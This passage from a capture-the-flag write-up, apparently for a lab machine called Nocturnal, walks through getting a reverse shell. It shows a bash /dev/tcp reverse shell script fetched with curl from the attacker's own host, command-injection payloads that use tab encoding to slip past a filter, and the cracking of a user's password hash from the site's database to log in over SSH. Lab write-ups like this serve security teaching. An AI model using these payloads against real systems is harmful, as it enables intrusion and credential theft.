 
For getting a reverse shell that doesn't get filtered, we can simply download a script from our machine and execute it. We can use `curl` to download the script and then execute it with `bash`.

On our machine we create the following script `rev.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.4/9999 0>&1
```

We can host this script on a web server, for example using Python:

```bash
python3 -m http.server
```

And then we can use the following command to download and execute the script on the target machine:

```bash
echo 'bash -c "curl http://10.10.14.4:8000/rev.sh -o /tmp/rev.sh"'|jq -rR @uri|sed 's/%20/%09/g'
bash%09-c%09%22curl%09http%3A%2F%2F10.10.14.4%3A8000%2Frev.sh%09-o%09%2Ftmp%2Frev.sh%22
```

Sending this payload after the `%0a` character in the command injection vulnerability will execute the script and download the reverse shell script to the `/tmp` directory.

![NON](file-20250813203825969.png)

After that we do the samething to set the script as executable: 

```bash
echo 'bash -c "chmod +x /tmp/rev.sh"'|jq -rR @uri|sed 's/%20/%09/g'
bash%09-c%09%22chmod%09%2Bx%09%2Ftmp%2Frev.sh%22
```

And then, execute the script to get a reverse shell:

```bash
echo 'bash /tmp/rev.sh' | jq -rR @uri | sed 's/%20/%09/g'
bash%09%2Ftmp%2Frev.sh
```

![NON](file-20250813203645503.png)

## Horizontal Privilege Escalation

After getting a reverse shell, we can see that we are logged in as the `www-data` user. We can look for web server files in search for sensitive information. Looking at the `nocturnal_database` directory, we can see that there is a file named `nocturnal_database.db` which contains the application users password hash. 

![NON](file-20250813203926892.png)

From the `Tobias` hash, we can crack it using `hashcat` and with that password, we can log in into the `SSH` service as the `tobias` user.

![NON](file-20250813204213349.png)
![NON](file-20250813204238557.png)
